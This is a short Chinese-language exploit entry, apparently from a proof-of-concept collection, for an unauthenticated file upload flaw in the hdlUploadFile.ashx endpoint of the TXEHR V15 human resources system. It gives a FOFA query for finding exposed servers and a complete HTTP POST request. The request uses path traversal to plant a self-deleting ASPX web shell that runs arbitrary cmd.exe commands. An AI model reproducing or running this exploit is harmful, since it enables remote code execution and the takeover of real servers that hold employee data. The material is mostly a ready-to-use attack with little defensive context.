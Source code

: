 # 同享人力资源管理系统hdlUploadFile.ashx存在文件上传漏洞

同享人力资源管理系统-TXEHR V15 hdlUploadFile.ashx 接口处存在文件上传漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```javascript
body="/Assistant/Default.aspx"
```

## poc

```javascript
POST /MobileService/Web/Handler/hdlUploadFile.ashx?puser=../../../Style/rce HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.2558.72 Safari/537.36
Content-Type: multipart/form-data;boundary =---------------------------142851345723692939351758052805
Connection: close
 
-----------------------------142851345723692939351758052805
Content-Disposition: form-data; name="Filedata"; filename="rce.aspx"
Content-Type: text/plain
 
<%@ Page Language="Jscript" validateRequest="false" %>
<%
var c=new System.Diagnostics.ProcessStartInfo("cmd");
var e=new System.Diagnostics.Process();
var out:System.IO.StreamReader,EI:System.IO.StreamReader;
c.UseShellExecute=false;
c.RedirectStandardOutput=true;
c.RedirectStandardError=true;
e.StartInfo=c;
c.Arguments="/c " + Request.Item["cmd"];
e.Start();
out=e.StandardOutput;
EI=e.StandardError;
e.Close();
Response.Write(out.ReadToEnd() + EI.ReadToEnd());
System.IO.File.Delete(Request.PhysicalPath);
Response.End();%>
-----------------------------142851345723692939351758052805--
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408072336134.png)

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408072337493.png)